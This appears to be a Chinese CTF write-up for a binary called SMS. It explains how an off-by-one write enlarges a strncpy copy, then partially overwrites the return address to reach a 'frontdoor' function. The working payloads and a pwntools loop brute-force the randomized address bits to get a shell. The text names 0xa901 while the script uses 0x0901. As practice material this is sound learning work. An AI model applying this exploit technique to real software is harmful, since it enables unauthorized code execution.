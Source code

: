 可以看到frontdoor的地址低12位是0x900,调试可以发现strncpy产生溢出的长度是200(0xC8),此外还要覆写RIP的低16位，所以需要修改strncpy的复制长度为202(0xCA)，所以payload如下：

```python
    payload1 = 'A'*40 + '\xca'  # 通过set_user覆写a1+180的值为0xCA
    payload2 = 'B'*200 + '\x00\xa9' # frontdoor函数的低12位地址为0x900，这里添加四位(0xa)，假设低16位地址为0xa900，当然0xa也可以是0-f中任意一个
```

调试时通过IDA修改内存地址修正爆破位的地址，可以发现这个payload并不能正确覆盖RIP(fgets获取输入被0截断），修改0x900为0x901跳过`push rbp`发现可正常跳转。正确的payload如下：

```python
    payload1 = 'A'*40 + '\xca'  # 通过set_user覆写a1+180的值为0xCA
    payload2 = 'B'*200 + '\x01\xb9' # frontdoor函数的低12位地址为0x900，这里添加四位(0xb)，假设低16位地址为0xb900，当然0xb也可以是0-f中任意一个
```

接下来就是利用脚本实现自动化爆破，首先我们可以发现脚本正常情况下执行会抛出一个EOFError异常

![Alt](img/bypass3.png)

所以通过一个异常处理来使脚本遇到这个异常时能够不间断执行，从而在某一次执行中刚好程序运行的frontdoor函数的实际地址低16位为我们脚本中写的0xa901，接着就可以正常进入函数拿到shell

```python
    from pwn import *

    i = 0
    while True:
        i += 1
        print "the %d th"%i
        p = process('./SMS')
        print p.recv()
        payload1 = 'a'*40 + '\xca'
        p.sendline(payload1)
        print p.recv()
        payload2 = 'b'*200 + '\x01\x09'  # 这里假设实际地址低16位为0x0901
        p.sendline(payload2)
        print p.recv()
        try:
            p.recv(timeout = 1)
        except EOFError:
            p.close()   # 如果触发异常，即地址第16位不为0x0901，那么关闭程序，继续下一趟的尝试
            continue
        else:   # 没有触发异常，说明程序成功调用frontdoor，那么输入参数获取shell
            sleep(1)
            p.sendline('/bin/sh\x00')
```